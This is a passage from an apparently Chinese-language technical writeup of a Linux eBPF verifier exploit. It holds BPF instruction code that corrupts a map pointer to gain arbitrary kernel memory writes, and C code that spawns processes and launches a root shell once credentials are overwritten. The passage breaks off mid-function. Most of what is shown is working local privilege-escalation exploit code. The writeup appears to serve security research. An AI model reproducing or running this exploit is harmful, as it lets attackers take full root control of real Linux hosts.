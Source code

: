 ```C
    // 向r10-16写入r7=16个字节，覆盖r10-8处的array指针。
    // 写入字节为可控，可将array指针改成任意地址。
    // r0 = bpf_skb_load_bytes_relative(r9, 0, r10-16, r7, 0)
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
    BPF_MOV64_IMM(BPF_REG_2, 0),
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
    BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
    BPF_MOV64_IMM(BPF_REG_5, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

    // 获取修改后的指针。
    // r6 = *(u64 *)(r10 - 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
  	
    // 从array map中获取从用户态传入的数据。
    // r0决定写入8字节还是4字节，r1则为写入的值。
    // r0 = *(u64 *)(r8 + 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_8, 0),
    // r1 = *(u64 *)(r8 + 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_8, 8),
	
    // 实现任意写。
    // 之所以可以写入成功，是因为verifier以为r6仍为array指针。
    // if (r0 == 0) { *(u64*)r6 = r1 }
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
    BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_1, 0),
    BPF_JMP_IMM(BPF_JA, 0, 0, 1),
    // else { *(u32*)r6 = r1 }
    BPF_STX_MEM(BPF_W, BPF_REG_6, BPF_REG_1, 0),

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN()
};
```

### 4.4 定位进程cred

调试发现，进程的 cred 有一定概率在泄露的 array 指针之后。因此需要多创建几个进程，避免利用失败。

所有进程通过 prctl(PR_SET_NAME, \_\_ID\_\_, 0, 0, 0) 将进程名称设置为固定字符串，在此使用 SCSLSCSL 。

```C
int spawn_processes(context_t *ctx)
{
    for (int i = 0; i < PROC_NUM; i++)
    {
        pid_t child = fork();
        if (child == 0) {
            if (prctl(PR_SET_NAME, __ID__, 0, 0, 0) != 0) {
                WARNF("Could not set name");
            }
            uid_t old = getuid();
            kill(getpid(), SIGSTOP);
            uid_t uid = getuid();
            if (uid == 0 && old != uid) {
                OKF("Enjoy root!");
                system("/bin/sh");
            }
            exit(uid);
        }
        if (child < 0) {
            return child;
        }
```